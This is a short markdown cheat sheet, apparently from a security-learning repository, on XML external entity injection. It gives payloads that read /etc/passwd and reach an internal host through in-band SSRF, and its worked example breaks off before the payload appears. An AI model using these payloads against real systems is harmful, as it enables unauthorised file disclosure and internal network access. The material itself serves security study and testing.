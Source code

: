 <br>

## Cheat Sheet


**If the application <u>is returning</u> the values of the defined external entities in its response, we can try the following techniques:**

<br>

### File Retrieval

* Inject the following payload in the body of the request on the target application:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

* Then use the defined xxe entity in an xml value in the request:

```xml
&xxe;
```

* We may be able to see the contents of the /etc/passwd file in the response.

<br>

### In-band SSRF

* Inject the following payload in the body of the request on the target application:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

* Then use the defined xxe entity in an xml value in the request:

```xml
&xxe;
```

* We may be able to see the HTTP response returned from the internal website.


<br><br>

### Example:  XXE Injection Attack

* The XML value in \<productId\> is being reflected in the response when an error is triggered so this was a good target for in-band XXE injection.

* The below is an example payload for XXE injection:


